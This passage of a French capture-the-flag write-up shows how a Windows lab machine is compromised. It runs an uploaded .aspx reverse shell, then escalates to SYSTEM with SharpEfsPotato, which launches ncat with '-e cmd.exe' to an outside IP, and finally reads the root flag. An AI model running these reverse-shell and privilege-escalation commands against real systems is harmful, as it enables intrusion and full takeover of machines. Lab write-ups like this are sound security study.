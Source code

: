 ```
PS C:\rebrec> iwr http://127.0.0.1:8000 -outfile a.html -v
VERBOSE: GET http://127.0.0.1:8000/ with 0-byte payload
VERBOSE: received 45949-byte response of content type text/html
```

Les autres ports testés ne retournaient pas de données. Nous savons donc que le service s'exécute très probablement sur le port 8000

Le reverse shell `.aspx` copié dans le dossier `c:\inetpub\development`, nous l'exécutons via la commande powershell :
```
PS C:\rebrec> iwr http://127.0.0.1:8000/revshell.aspx -outfile a.html
```

et obtenons un shell en tant que :
```
c:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

## Escalade de privilèges vers System 

Nous découvrons rapidement que le compte `iis apppool\defaultapppool` dispose du privilèges `SeImpersonatePrivilege`, nécessaire à l'exploitation des vulnérabilités de la famile des "Potato" (RoguePotato, etc.)

Après une brève lecture sur ce type d'attaques sur [cette page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) d'hacktricks, on télécharger[SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato), qui, une fois compilé avec visual studio, puis uploadé sur notre cible nous permet de lancer un dernier reverse shell en tant que `SYSTEM`

Pour ce faire, on uploadera l'utilitaire `ncat.exe` et on exécutera :
```
SharpEfsPotato.exe -p ncat.exe -a "10.10.14.149 1500 -e cmd.exe"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/0e8462f4-fa42-4fbe-9dcf-eefc70c83679/\0e8462f4-fa42-4fbe-9dcf-eefc70c83679\0e8462f4-fa42-4fbe-9dcf-eefc70c83679
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

```

```shell title="reverse shell en tant que SYSTEM"

C:\Windows\system32>whoami
whoami
nt authority\system

# On récupère le flag avec la commande
type c:\users\administrator\desktop\root.txt
```
